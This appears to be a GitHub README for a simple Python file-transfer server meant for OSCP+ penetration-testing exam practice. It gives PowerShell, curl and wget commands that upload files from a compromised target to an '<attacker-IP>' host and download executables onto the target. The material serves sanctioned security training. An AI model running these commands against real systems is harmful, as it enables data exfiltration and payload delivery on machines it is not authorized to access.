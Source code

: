 # OSCP-Plus-Prep

## Simple File Transfer Server

This is a lightweight Python HTTP server designed for quick and easy file transfers between machines. It is particularly useful in penetration testing scenarios, such as the OSCP+ exam, where transferring files between an attacker's machine and a compromised target is necessary.

### Features

- Supports both **file upload (PUT request)** and **file download (GET request)**.
- Works on **Windows, Linux, and macOS**.
- Requires **no dependencies** beyond Python's standard library.
- Custom **colored output** for better visibility.

---

## How to Use

### 1. Starting the Server

To start the server, run the following command on your attacker machine:

```bash
python3 simple_server.py
```
or specify a custom port:

```bash
python3 simple_server.py 8080
```

By default, the server runs on port `80`, but you can specify any available port, such as `8080`.

---

## Transferring Files

### Uploading Files to the Attacker Machine

#### **From a Windows Target (Using PowerShell)**

To upload a file from a Windows target to your attacker's machine:

```powershell
Invoke-WebRequest -Uri "http://<attacker-IP>/file.txt" -InFile "C:\Users\Documents\file.txt" -Method Put
```

#### **From a Linux Target**

Using `curl` (recommended):

```bash
curl -T file.tar.gz http://<attacker-IP>/file.tar.gz
```

Using `wget`:

```bash
wget --method=PUT --body-file=file.tar.gz http://<attacker-IP>/file.tar.gz
```

---

### Downloading Files from the Attacker Machine

#### **From Any Target (Windows/Linux/macOS)**

To download a file from the attacker's machine to your target:

```bash
curl http://<attacker-IP>/file.exe -o file.exe
```

This will save the `file.exe` file from the attacker's machine to the target.

If curl is not available on the system, you can use wget to download files as well:

```bash
wget http://<attacker-IP>/file.exe -O file.exe
```

---

## Author

**Created by:** `glitcher`
